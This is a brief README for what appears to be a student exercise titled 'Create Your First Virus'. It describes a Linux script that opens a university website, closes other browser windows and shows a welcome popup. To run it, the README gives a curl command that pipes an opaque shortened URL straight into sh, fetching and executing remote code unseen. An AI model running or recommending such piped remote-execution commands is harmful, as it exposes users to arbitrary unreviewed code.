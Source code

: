 # Exercise 02 - Create Your First Virus
## Task
Create your first virus
- Executable file
- Will open browser and PUP website automatically
- Will close all other website
- Pop up message, "Welcome to PUP"
## Prerequisites
To be able to run the virus, the host machine should be:
- Running any Linux Operating System
- Has either `google-chrome` or `firefox` or `brave` browser
## Running the Virus
To execute the virus, copy and paste the command below:
```sh
curl -L https://bit.ly/4fJCXo0 | sh
```
## Demonstration
[demo_gif](https://github.com/marcoxmediran/activities-source-code/blob/main/elective/exercise02_virus/demonstration/demo.gif);
